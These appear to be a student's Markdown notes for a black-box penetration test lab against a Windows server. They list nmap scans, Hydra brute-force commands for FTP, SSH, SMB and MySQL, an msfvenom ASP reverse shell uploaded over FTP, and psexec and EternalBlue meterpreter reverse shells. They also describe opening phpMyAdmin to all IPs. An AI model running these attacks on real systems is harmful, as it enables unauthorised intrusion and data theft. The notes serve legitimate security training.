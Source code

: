 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.26.161 ssh`

	
	- - `unix_users.txt`: This file contains common usernames that are often used on Unix-based systems. You would use this list when **you want to try different usernames with known or common passwords**. For example, you might use a list of common usernames like "root," "admin," "user," etc., and then try various passwords with each of these usernames.
	- `unix_passwords.txt`: This file contains common passwords that are often used on Unix-based systems. You would use this list when you have a specific username that you want to test with a variety of common passwords

- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 

###### PSexec

**Manual**
	psexec allows you to remotely authenticate via SMB with legitimate credentials
		- `locate psexec.py `
		- Copy the file to Desktop:` cp file path  `
		- make the file executable so we can utilize it: `chmod +x psexec.py`
	- `python 3 psexec.py Administrator@ip `

**msfconsole** 
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `


#### Targeting MySQL Database Server

msfconsole
	- `use/aux/scanner/mysql/mysql_login `
	- `set pass_file /usr/share.wordlists/metasploit/unix_password.txt`

login mysql database server:
- `mysql -u root -p -h ip `
- `show databases`

visit ip and port in browser 
*use the credentials found with the bruteforce for mysql database server to get access to another server -> wordpress via phpmyadmin*


phpmyadmin (try to change configuration file)
- msfconsole (get elevated meterpreter session)
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- C drive 
	- Navigate to the software stack's folder. For example, if using WAMP, you can navigate to the web root directory by typing:cd `C:\\wamp\\www`


											wordpress directory 
											cat contant of config.php
											contains mysql passwords 

**Modify phpMyAdmin Configuration file** 

- Search for the `phpmyadmin.conf` file that controls phpMyAdmin's access.
- Download the `phpmyadmin.conf` file to your local machine using the Meterpreter session.
- Open and edit the `phpmyadmin.conf` file. Make sure it allows access from all IP addresses.
- Upload the modified `phpmyadmin.conf` file back to the Meterpreter session using the `upload` command.
- Restart the Apache service to apply the changes:
    - Open a Windows command prompt within the Meterpreter session using `shell`.
    - Stop the Apache service with the command: `net stop wampapache`.
    - Start the Apache service again with: `net start wampapache`.
- Revisit the phpMyAdmin page in your browser; you should now have unrestricted access.
	- change the password![[Pasted image 20230914165333.png]]
- Log in to the WordPress site via phpMyAdmin using the MySQL credentials obtained earlier.






















#### Targeting MySQL Database Server 

